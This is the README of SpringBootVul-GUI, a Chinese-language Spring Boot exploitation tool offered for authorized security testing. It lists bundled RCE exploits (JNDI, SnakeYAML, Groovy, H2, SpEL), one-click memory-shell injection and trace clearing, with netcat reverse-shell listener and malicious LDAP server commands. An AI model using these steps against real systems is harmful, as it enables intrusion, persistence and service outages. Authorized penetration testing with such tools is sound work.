


# SpringBootVul-GUI

一个半自动化springboot打点工具，内置目前springboot所有漏洞

## 声明

> **⚠️ 本项目所有内容仅作为安全研究和授权测试使用, 相关人员对因误用和滥用该项目造成的一切损害概不负责**

## 0x01简介

本着简单到极致的原则，开发了这么一款半自动化工具（PS：这个工具所包含多个漏洞，开发不易，有任何问题可提issue）

尽管是一个为懒人量身打造的工具，但是还是有几点需要注意


注意！！以下几点请务必谨记

注意！！以下几点请务必谨记

注意！！以下几点请务必谨记

1、工具中出现的漏洞，需要先熟悉之后才能利用本工具。部分接口极其容易造成服务器的springboot服务异常，包括不限于报错、程序退出、无法执行代码，请小心使用！！

2、本工具仅限学习使用，请勿用于非法用途！！！！！！！！

3、工具仍在开发阶段，目前测试无异常，使用次数多难免会造成不可预见的问题，请提issue，确认后会修改BUG，感谢各位。


## 0x02使用教程

```bash
# git clone下载本项目
git clone https://github.com/wh1t3zer/SpringBootVul-GUI
可直接运行Springboot_vul.java

# 也可直接下载jar包
java -jar SpringBootVul_GUI.jar
```

确保采用的是jdk1.8版本

本系统采用的是javafx，高版本需自行加载javafx依赖

本项目中的heapdump转存会自动下载网站上的文件，并会放到jar包下的HFile文件夹


**文件结构**

```
├──SpringbootVul-GUI
  ├── META-INF/
  ├── resources/		# 存放资源文件、字典和exp的跨文件
  ├── HPFile/				# 存放下载的heapdump
  ├── src/					# 工程代码
  ├── image/				
  ├── libs/					# 所需依赖
```

## 0x03开发进度 TODO

* [x] 配置不正当导致的泄露
* [x] 脱敏密码明文(1)
* [x] 增加漏洞利用选择模块，可以选择单一或多个漏洞进行检测
* [x] 命令执行漏洞式支持交互式执行命令
* [x] Spring Gateway RCE
* [x] heapdump文件下载导致敏感信息泄露
* [x] druid数据连接池
* [x] 脱敏密码明文(2)
* [x] 脱敏密码明文(3)
* [x] eureka中xstream基于反序列化的RCE
* [x] spring.datasource.data 基于h2数据库的RCE
* [x] 基于SpEL注入的RCE
* [x] spring.main.source的groovyRCE
* [x] logging.config的groovyRCE
* [x] H2数据库设置query属性的RCE
* [x] logging.config的logback基于JNDI的RCE
* [x] CVE-2021-21234任意文件读取
* [x] h2数据库的控制台基于JNDI注入的RCE
* [x] SpringCloud的SnakeYaml的RCE
* [x] jolokia中logback基于JNDI注入的RCE
* [ ] jolokia中realm基于JNDI注入的RCE
* [ ] mysql中jdbc基于反序列化的RCE(暂不写，需配合痕迹清除一起用，不然造成对方数据库业务异常)(需ysoserial工具)

## 0x04短期目标 Prepare

* [x] 一键打入内存马(目前只有Spring Cloud Gateway)
* [x] 部分RCE的痕迹一键清除(spring cloud gateway)

## 0x05项目演示

### #1 密码脱敏

脱敏（1）


脱敏（2）

得到Authorization字段的数据，用base64解码即可，有时间再优化下能直接显示到文本框里


脱敏（3）


### #2 Spring Cloud Gateway 交互式命令


**痕迹清除**

默认清除poctest、pwnshell和expvul路由，其他路由自行判断



### #3 Eureka 反序列化RCE（慎用）

直接点击getshell反弹，单纯poc测试的没写，python文件放同一目录下了，需要在vps启用2个端口，一个是你python服务器的端口，一个是反弹端口，写在python文件中，反弹端口默认是9000，注意这两个端口区别，输入框的端口是托管服务器端口

```bash
nc -lvk 9000 # mac
nc -lvp 9000 # linux
python -m http.server 80
```

**注意！！！**该数据包发送后会驻留到目标Eureka，会不断请求，若造成服务器出错时，可能会导致无法访问网站的路由


### #4 H2DatabaseSource RCE（慎用）

目前已经基本完成一键getshell，理论上只要在不关闭的情况下可以无限弹，~~因为目前的payload是从T5开始的，如果遇到网站被测试过时，那大概率会报错而导致对方服务宕机~~，因为这是不回显RCE，无法判断到底有没有被测试过。现为随机生成3位数字，没有关闭工具的情况下默认递增。

监听端口默认是**8881**

输入框中填写你开启服务器的端口，目前为了能无限弹的机制，暂时只能设置在该项目的resources文件夹开启

```bash
nc -lvk 8881 # mac
nc -lvp 8881 # linux
python -m http.server 80
```


### #5 SpEL注入导致的RCE

可以同时检测多个参数值，要在参数值上打上一个单引号'作为标记'

http://127.0.0.1:9091/article?id=1'&b=2'

getshell功能可以直接弹shell，getshell模块直接输入地址+路由+参数，无需加=和后面的值

```bash
nc -lvk port # mac
nc -lvp port # linux
```


### #6 MainSourceGroovyRCE

poc测试暂时没写，一键getshell监听的端口是托管groovy文件的端口，反弹端口默认为7777

输入框中填写你开启服务器的端口，目前为了更好弹shell，最好设置在该项目的resources文件夹开启

**注意！！！**：“HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出”

所以师傅有需要修改代码或者其他用途的时候，修改代码的时候不要改错groovy内容，并且文件内容也不要随意修改，以防万一

```bash
nc -lvk 7777 # mac
nc -lvp 7777 # linux
python -m http.server 80
```


### #7 LoggingConfigGroovyRCE

poc测试暂时没写，一键getshell监听的端口是托管groovy文件的端口，反弹端口默认为4444，开启的方法同上

```bash
nc -lvk 4444 # mac
nc -lvp 4444 # linux
python -m http.server 80
```

**注意！！！**：“HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出”

所以师傅有需要修改代码或者其他用途的时候，修改代码的时候不要改错groovy内容，并且文件内容也不要随意修改，以防万一


### #8 H2DatabaseQueryRCE(慎用)

这个也是跟H2dataSource漏洞一样，会使用sql语句来触发，考虑到无限弹shell并且如果一个网站同时测这两个漏洞，~~默认设置的含T5类似的，初始值是T15，代码写了递增，测试次数上要注意~~

现在为随机生成四位数字，没关闭工具情况下还是默认递增

```bash
nc -lvk 8000 # mac
nc -lvp 8000 # linux
```


### #9 LoggingConfigJNDIRCE(慎用) 

端口输入用的是托管xml文件的端口，监听默认9990，需要resources文件夹的jndi服务器配合一起。

**注意**： 

1、目标必须是出网的，否则 restart 会导致程序异常退出

 2、JNDI 服务返回的 object 需要实现javax.naming.spi.ObjectFactory`接口，否则会导致程序异常退出（已打包成jar包在resources文件夹）

```bash
nc -lvk 9990 # mac
nc -lvp 9990 #linux
python -m http.server 80 
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i ip
```


### #10 CVE-2021-21234任意文件读取(仅做poc测试，后续加入输入文件名)


### #11 H2数据库的JNDI的RCE

漏洞利用的路径是访问恶意ladp服务器->通过转发到托管服务器的class->getshell

文件读写是从template文件夹下读取模板，对vps配置替换后写到resources再编译成class

1、运行恶意ladp，文件我放到resources了，可以直接使用

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/\#H2DataConsole 1389
```

2、运行resources托管服务器

```bash
python -m http.server 80
```

3、监听端口

```bash
# mac
nc -lvk 7777
#linux
nc -lvp 7777
```


有关JDNI高版本注入的文章可以看看

https://tttang.com/archive/1405/

### #12 SnakeYamlRCE

漏洞触发流程：

SnakeYamlYml.yml - > SnakeYaml.jar - > getshell

端口监听默认是9950，监听port填的是托管服务的端口

**注意**：该exp会发送到对方服务器，而对方服务器的env会显示500，比如这种，在测试结束后需要通知对方重启服务器获得正常显示。

**小Tips**：该漏洞的yml文件调用jar包加载，若重复发送同名的jar包会导致漏洞利用失败，故该模块用了递增的形式一直改变生成jar包名而到达无限弹shell

生成的jar包参考代码在resources/SnakeYamlPayload/artsploit下

```bash
python -m http.server 80 
nc -lvk 9950 #mac
nc -lvp 9950 #linux
```


### #13 JolokiaLogback的JNDI的RCE

漏洞执行流程：服务器访问xml文件，通过xxe漏洞去访问ldap，然后跳转到JNDI恶意类加载

切换到resources文件夹，工具的监听端口是nc的端口，不是80

```bash
python -m http.server 80

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:80/\#JolokiaLogback 1389
```

```bash
nc -lvp 9090 #linux
nc -lvk 9090 #mac
```



### #14 端点扫描

端点扫描经过延时降速处理，heapdump可以下载大文件，用了分块，做了个小进度条，以后优化下，textflow布局以后要改


### #15 一键上马


## 0x06参考项目

感谢以下项目或文章提供帮助和支持，具体漏洞原理可参考以下地址

1、https://github.com/LandGrey/SpringBootVulExploit

2、https://mp.weixin.qq.com/s/2wKB3jACAkIiIZ96tVb5fA

3、https://xz.aliyun.com/t/11331?time__1311=Cq0xR70QoiqDqGXYYIhxWucgYDkIHT1iT4D#toc-3

4、https://blog.csdn.net/weixin_50464560/article/details/121193783

## Star History

[](https://star-history.com/#wh1t3zer/SpringBootVul-GUI&Date)

